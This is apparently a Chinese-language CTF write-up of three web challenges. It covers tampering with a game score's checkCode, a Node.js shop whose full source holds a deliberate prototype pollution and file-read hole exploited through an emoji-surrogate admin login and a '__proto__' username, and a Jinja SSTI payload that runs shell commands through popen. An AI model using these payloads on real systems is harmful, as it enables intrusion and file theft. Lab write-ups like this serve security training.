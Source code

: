 # 2022.9

# web

## dino3d

**关键代码**

```java

sn(e, t) {
        e && t && fetch("/check.php", {
            method: "POST",
            headers: {
                "Content-type": "application/x-www-form-urlencoded; charset=UTF-8"
            },
            body: "score=" + parseInt(e).toString() + "&checkCode=" + md5(parseInt(e).toString() + t) + "&tm=" + (+new Date).toString().substring(0, 10)
        }).then(e => e.text()).then(e => alert(e))
    }
```

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled.png)

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%201.png)

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%202.png)

已知checkCode的计算方式

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%203.png)

构造

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%204.png)

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%205.png)

发现还是不对吗，可能是时间戳有校验

生成一个字典，爆破

```python
list = "1234567890"
f = open("num.txt", 'a')
for l1 in list:
		for l2 in list:
			for l3 in list: 
				for l4 in list:
					text = "{}{}{}{}\n".format(l1,l2,l3,l4)
					f.write(text)
f.close()
```

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%206.png)

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%207.png)

也可以直接在浏览1器的控制台用function 定义sn函数，直接sn(1000000,’1000000DASxCBCTF_wElc03e’)

## CBshop

**源码**

```python
const fs = require('fs');
const express = require('express');
const session = require('express-session');
const bodyParse = require('body-parser');
const app = express();
const PORT = process.env.PORT || 80;
const SECRET = process.env.SECRET || "cybershop_challenge_secret"

const adminUser = {
    username: "admin",
    password: "😀admin😀",
    money: 9999
};

app.use(bodyParse.urlencoded({extended: false}));
app.use(express.json());
app.use(session({
    secret: SECRET,  
    saveUninitialized: false,  
    resave: false, 
    cookie: { maxAge: 3600 * 1000 }
}));
app.use(express.static("static"));

app.get('/isLogin', function(req, res) {
    if(req.session.username) {
        return res.json({
            code: 2,
            username: req.session.username,
            money: req.session.money
        });
    }else{
        return res.json({code: 0, msg: 'Please login!'});
    }
});

app.post('/login', function(req, res) {
    let username = req.body.username;
    let password = req.body.password;
    if (typeof username !== 'string' || username === '' || typeof password !== 'string' || password === '') {
        return res.json({code: 4, msg: 'illegal username or password!'})
    }

    if(username === adminUser.username && password === adminUser.password.substring(1,6)) {//only admin need password
        req.session.username = username;
        req.session.money = adminUser.money;
        return res.json({
            code: 1,
            username: username,
            money: req.session.money,
            msg: 'admin login success!'
        });
    }
    req.session.username = username;
    req.session.money = 10;
    return res.json({
        code: 1,
        username: username,
        money: req.session.money,
        msg: `${username} login success!`
    });
});

app.post('/changeUsername', function(req, res) {
    if(!req.session.username) {
        return res.json({
            code: 0,
            msg: 'please login!'
        });
    }
    let username = req.body.username;
    if (typeof username !== 'string' || username === '') {
        return res.json({code: 4, msg: 'illegal username!'})
    }
    req.session.username = username;
    return res.json({
        code: 2,
        username: username,
        money: req.session.money,
        msg: 'Username change success'
    });
});

//购买商品的接口
function buyApi(user, product) {
    let order = {};
    if(!order[user.username]) {
        order[user.username] = {};
    }

    Object.assign(order[user.username], product);

    if(product.id === 1) {             //buy fakeFlag
        if(user.money >= 10) {
            user.money -= 10;
            Object.assign(order, { msg:  fs.readFileSync('/fakeFlag').toString() });
        }else{
            Object.assign(order,{ msg: "you don't have enough money!" });
        }
    }else if(product.id === 2) {        //buy flag
        if(user.money >= 11 && user.token) {  //do u have token?
            if(JSON.stringify(product).includes("flag")) {
                Object.assign(order,{ msg: "hint: go to 'readFileSync'!!!!" });
            }else{
                user.money -= 11;
                Object.assign(order,{ msg: fs.readFileSync(product.name).toString() });
            }
        }else {
            Object.assign(order,{ msg: "nononono!" });
        }
    }else {
        Object.assign(order,{ code: 0, msg: "no such product!" });
    }
    Object.assign(order, { username: user.username, code: 3, money: user.money });
    return order;
}

app.post('/buy', function(req, res) {
    if(!req.session.username) {
        return res.json({
            code: 0,
            msg: 'please login!'
        });
    }
    var user = {
        username: req.session.username,
        money: req.session.money
    };
    var order = buyApi(user, req.body);
    req.session.money = user.money;
    res.json(order);
});

app.get('/logout', function(req, res) {
    req.session.destroy();
    return res.json({
        code: 0,
        msg: 'logout success!'
    });
});

app.listen(PORT, () => {console.log(`APP RUN IN ${PORT}`)});
```

一个原型链污染，当时没做出来登录admin后是10块钱，后来看wp😀算两个字符，在密码校验的时候要先手动把符号Unicode一下

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%208.png)

登录的时候校验就是用第2个到第6个字符，既`\uDE00admi` 这样就能登录成功。

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%209.png)

然后将名字改为`__proto__` 再买flag就可以了

## **Text Reverser**

一个倒过来的ssti,做的时候忘记自己的fuzz字典在哪里了，真猪啊

大概两种做法，一个是直接print出来

`{% print [].**class**.**base**.**subclasses**()[132].**init**.**globals**['popen']('nl /f*').read()%}`

这是可以直接命令执行的

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%2010.png)

还有一种是怪驰的盲注

{% if ***==""%}1{% endif%}